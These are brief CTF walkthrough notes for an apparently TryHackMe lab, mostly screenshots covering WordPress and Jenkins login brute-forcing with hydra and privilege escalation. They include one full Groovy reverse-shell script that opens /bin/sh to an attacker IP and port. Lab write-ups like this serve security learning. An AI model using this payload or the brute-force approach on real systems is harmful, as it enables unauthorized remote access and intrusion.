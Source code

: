 # notes  for internal hard ctf thm 

## recon : 
![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/b3083cbd-95e2-4ab1-a1c3-d088cddb771f)

## enumerating :

![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/41a6f84b-1982-410f-8eb7-12fed72a297a)

## brute force the login page to get admin cred using wpscan or hydra because the admin is valid username!

![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/a47fe8c1-a6d8-4e07-9435-d607d306e4f5)

![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/13e530ad-f66b-4c41-a873-21b7a95bd61c)

![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/3913d412-8709-4888-a1e4-ece0cbac11e6)



## getting reverse shell after editing the theme by changing 404.php file 


##  manual enumerating after getting an escalated priv to the machine :



## ssh tunneling to Privilage escelation:

in the attacker machine :
![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/80eacedf-c6a9-410c-a2d4-80248e60c31a)
![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/ce2a1793-8e04-459c-a553-115d77f8f4d8)


## trying to loging to jenkinks service :

![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/d136a034-b64a-4ef7-8b33-206b3bdcdd1f)

- use burp suite to get the parameters ready for hydra :
- 
  ![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/6c382504-6eac-4470-aa2c-603b73bd35e2)

- using hydra to login :
  ![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/42c5e395-fc3e-4dd2-bd18-ab909fba4602)
  ![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/a4ab5947-7945-4ba1-9bdf-b1d3e9516c89)

  - we could use OWSAP ZAP tool to fuzz it and check respondes that has different size and those make this as relevent passwords to try and than try with diff usernames
  - but admin is default user in jenkins so we tried it first
 
## now lets make reverse shell as we did in the wp website  using groovy script :

String host="10.9.149.158";
int port=4444;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/979f076d-abb9-4ac2-9cd4-f949993d67bc)

PE  to root :
![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/3d89a279-7245-4ad6-a910-8b3465920bb3)
![image](https://github.com/ArielElb/TryHackMe-CTFs/assets/94087682/dfca5acc-ad90-472c-95ee-70e65305512c)







